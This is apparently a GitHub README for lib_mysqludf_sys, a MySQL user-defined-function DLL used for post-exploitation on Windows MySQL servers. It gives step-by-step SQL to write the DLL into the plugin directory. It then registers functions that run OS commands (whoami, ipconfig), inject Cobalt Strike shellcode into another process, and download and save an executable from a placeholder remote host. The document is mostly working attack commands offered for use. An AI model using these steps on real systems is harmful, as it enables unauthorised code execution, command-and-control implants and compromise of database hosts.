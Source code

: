 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.```python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql```

2.exec .sql file

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/exec_sql.png) 

3.dumpfile lib_mysqludf_sys_x64.dll into lib/plugin

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/dumpfile.png) 

## Sys_exec

1.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec; ```

2.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec; ```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/sys_exec.png) 


## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode

```create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/Inject_file.png) 

4.GIF 

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/injectshellcode.gif) 

## Download

```create function download returns string soname "lib_mysqludf_sys_x64.dll"; select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;```

